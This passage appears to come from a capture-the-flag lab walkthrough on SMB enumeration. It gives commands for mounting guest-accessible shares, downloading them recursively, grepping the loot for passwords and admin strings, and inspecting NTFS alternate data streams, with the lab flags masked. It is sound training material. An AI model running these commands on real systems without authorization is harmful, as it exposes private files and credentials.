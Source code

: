 **Alternative Methods:**
```bash
# Mount shares locally
mkdir /mnt/smb_shares
mount -t cifs //$TARGET/Public /mnt/smb_shares -o username=guest,password=''

# Use smbget for recursive download
smbget -R smb://$TARGET/Public -U guest%
```

Files to look for:
- `*.txt` files often contain notes
- `passwords.*` files
- Configuration files
- Backup files

**FLAG{D***************5}** - Found in Public share
**FLAG{S***************9}** - Found in Backup share  
**FLAG{A***************7}** - Found in IT share (may need credentials)

### Step 2.4: File Content Analysis

When you find text files, examine them thoroughly:

```bash
# Search through all downloaded files
grep -r "password\|passwd\|pwd\|user\|admin" ./smb_loot/
grep -r "[A-Z]{4,}" ./smb_loot/  # Look for uppercase patterns
strings -n 10 ./smb_loot/* | less  # Find readable strings

# Check for hidden content
for file in ./smb_loot/*; do
    echo "=== $file ==="
    cat "$file"
    # Check for alternate data streams (if on Windows)
    # Check file properties and metadata
    exiftool "$file"
done
```

**FLAG{M***************2}** - Found embedded in passwords.txt

### Step 2.5: Alternate Data Streams (ADS)

Windows NTFS supports hidden data streams:

```powershell
# If you gain Windows access
Get-Item C:\Public\* -Stream * | Select-Object FileName, Stream
Get-Content C:\Public\normal.txt -Stream *

# Or via SMB
smbclient //$TARGET/Public -c "allinfo normal.txt"
```
